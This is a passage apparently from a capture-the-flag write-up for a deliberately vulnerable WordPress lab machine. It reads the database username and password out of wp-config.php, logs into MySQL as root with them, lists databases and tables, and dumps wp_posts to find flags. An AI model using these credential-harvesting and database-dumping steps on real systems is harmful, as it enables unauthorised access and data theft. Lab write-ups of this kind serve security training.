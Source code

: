 ```bash
cat /var/www/html/wordpress/wp-config.php

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'R@v3nSecurity');
```

```bash
mysql -u root -pR@v3nSecurity
mysql> show databases;

+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| wordpress          |
+--------------------+

mysql> use wordpress;
mysql> show tables;

+-----------------------+
| Tables_in_wordpress   |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+

mysql> select * from wp_posts;
```
![Flag 3 and 4](images/flag3and4.png)


